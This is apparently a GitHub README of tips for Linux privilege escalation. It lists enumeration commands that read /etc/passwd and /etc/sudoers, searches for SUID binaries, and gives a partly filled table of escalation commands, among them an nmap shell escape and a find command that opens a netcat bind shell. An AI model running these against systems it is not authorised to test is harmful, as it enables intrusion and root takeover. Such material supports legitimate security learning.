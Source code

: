 # Linux-Privilege-Escalation
Tips and Tricks for Linux Priv Escalation

## Start with the basics

Who am i?  
`id`

Who else is on this box (lateral movement)?  
`ls -la /home`  
`cat /etc/passwd`  

What Kernel version and distro are we working with here?  
`uname -a`  
`cat /etc/issue`  

What files and folders are in my home user's directory?  
`ls -la ~`

## Next focus on what we can EXECUTE

Who can execute code as root (probably will get a permission denied)?  
`cat /etc/sudoers`

Can I execute code as root (you will need the user's password)?  
`sudo -l`

What executables have SUID bit that can be executed as another user?
`find / -user root -perm -4000 -print 2>/dev/null`  
`find / -perm -u=s -type f 2>/dev/null`  
`find / -user root -perm -4000 -exec ls -ldb {} \;`  


If any of the following commands appear on the list of SUID or SUDO commands, they can be used for privledge escalation

| SUID / SUDO Executables            | Priv Esc Command                                                              |
|------------------------------------|-------------------------------------------------------------------------------|
| nmap (older versions 2.02 to 5.21) | nmap --interactive !sh                                                        |
| awk                                |                                                                               |
| python                             |                                                                               |
| perl                               |                                                                               |
| find                               | find /home -exec nc -lvp 4444  -e /bin/bash \;<br>  find /home -exec /bin/bash \; |
| xxd                                |                                                                               |
| vi                                 |                                                                               |
| bash                               |                                                                               |
| more                               |                                                                               |
| less                               |                                                                               |
| nano                               |                                                                               |
| cp                                 |                                                                               |
